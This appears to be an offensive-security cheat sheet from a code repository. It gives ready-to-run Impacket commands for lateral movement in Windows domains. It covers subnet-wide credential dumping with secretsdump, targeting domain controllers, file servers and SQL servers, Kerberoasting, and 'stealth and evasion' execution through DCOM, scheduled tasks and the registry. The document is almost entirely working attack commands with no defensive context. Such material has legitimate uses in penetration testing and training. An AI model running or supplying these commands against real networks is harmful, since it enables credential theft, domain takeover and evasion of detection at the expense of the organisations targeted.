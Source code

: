 ## Credential Harvesting Strategies

### Mass Credential Extraction
```bash
# Create target list
nmap -p 445 192.168.1.0/24 | grep "445/tcp open" | awk '{print $5}' > targets.txt

# Extract credentials from all accessible systems
for target in $(cat targets.txt); do
    echo "Attempting $target"
    python3 secretsdump.py -hashes :admin_hash administrator@$target
done
```

### Targeted High-Value Extraction
```bash
# Target domain controllers
python3 secretsdump.py domain.com/domain_admin:password@dc1.domain.com -just-dc
python3 secretsdump.py domain.com/domain_admin:password@dc2.domain.com -just-dc

# Target file servers (often have cached admin creds)
python3 secretsdump.py domain.com/admin:password@fileserver.domain.com

# Target SQL servers (service account credentials)
python3 mssqlclient.py domain.com/sa:password@sqlserver.domain.com -windows-auth
```

## Stealth and Evasion Techniques

### Low-Noise Enumeration
```bash
# Use stealth mode for Kerberoasting
python3 GetUserSPNs.py domain.com/user:password -dc-ip 192.168.1.10 -stealth -request

# Minimal LDAP queries
python3 GetADUsers.py domain.com/user:password -dc-ip 192.168.1.10 -all -debug
```

### Alternative Execution Methods
```bash
# Use DCOM instead of WMI/SMB
python3 dcomexec.py domain.com/administrator:password@target.domain.com

# Use scheduled tasks
python3 atexec.py domain.com/administrator:password@target.domain.com "whoami"

# File-less execution via registry
python3 reg.py domain.com/administrator:password@target.domain.com
```
